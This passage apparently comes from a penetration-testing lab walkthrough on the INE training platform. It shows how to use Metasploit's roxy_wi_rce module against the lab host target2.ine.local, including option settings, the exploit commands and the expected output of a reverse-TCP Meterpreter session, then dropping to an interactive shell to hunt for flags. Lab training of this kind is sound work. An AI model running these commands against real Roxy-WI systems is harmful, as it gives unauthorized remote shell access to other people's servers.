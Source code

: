 **Expected Configuration:**
```
Module options (exploit/linux/http/roxy_wi_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to Roxy-WI
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

```bash
# Configure the exploit
msf6 exploit(linux/http/roxy_wi_rce) > set RHOSTS target2.ine.local
msf6 exploit(linux/http/roxy_wi_rce) > set LHOST YOUR_IP_ADDRESS

# Get your IP address if needed
# Run this in another terminal: ip addr show | grep inet

# Execute the exploit
msf6 exploit(linux/http/roxy_wi_rce) > exploit
```

**Expected Output:**
```
[*] Started reverse TCP handler on YOUR_IP:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable version of Roxy-WI detected.
[*] Sending stage (3045380 bytes) to target2.ine.local
[*] Meterpreter session 1 opened (YOUR_IP:4444 -> target2.ine.local:XXXX) at 2024-XX-XX XX:XX:XX +0000

meterpreter >
```

#### Step 5: System Exploration and Flag Hunting

```bash
# Get basic system information
meterpreter > sysinfo

# Drop to system shell
meterpreter > shell

# Make the shell interactive
/bin/bash -i
```
